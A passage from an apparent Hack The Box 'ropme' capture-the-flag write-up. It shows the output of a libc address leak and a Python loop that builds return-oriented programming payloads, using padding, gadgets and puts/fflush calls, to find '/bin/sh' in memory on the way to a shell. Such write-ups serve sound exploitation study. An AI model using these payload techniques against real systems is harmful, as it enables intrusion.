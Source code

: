 ```Python
```

And the output:

```
shaked@shaked-ubuntu:/media/psf/Home/Desktop/programming2/challenges/hack_the_box/ropme$ python exploit.py
connecting to  ('docker.hackthebox.eu', 35034)
ROP me outside, how 'about dah?

connected. sending data
Virtual address of puts is: 0x7f09f667e690
Base of libc: 0x7f09f660f000
Address of system:  0x7f09f6654390
Address of binsh:  0x7f09f679bd57
%s%s%s%s%s%s%s%s
```

So it seems this is actually the string that is in the offset. I couldn't really tell why libc is wrong, but it doesn't matter. Let's look around that string and look for the string we want.

```Python
offset = 0x18cd57

while 1:
    payload2 = PAD                      # 72 bytes of "A"s
    payload2 += gadget_pop_rdi_ret      # return there when done with main

    # address of "/bin/sh", this will be popped to RDI
    payload2 += ptr(libc_base + offset)

    # Instead of calling system now, let's call puts
    payload2 += puts_plt

    # fflush
    payload2 += gadget_pop_rdi_ret
    payload2 += NULL
    payload2 += fflush_plt

    payload2 += main_addr   # back to main so we can send payload again


    ## WILL RETURN SOON
    # Address of system. return here after you pop
    # payload2 += ptr(libc_base + 0x45390)    


    # Send the payload
    conn.send(payload2 + "\n")

    # Get back an answer, we expect that system("/bin/sh") will run
    print "string @ " + hex(offset), "\t", conn.recv(1024)

    # After reach loop, change the offset
    offset -= 0x10  
```
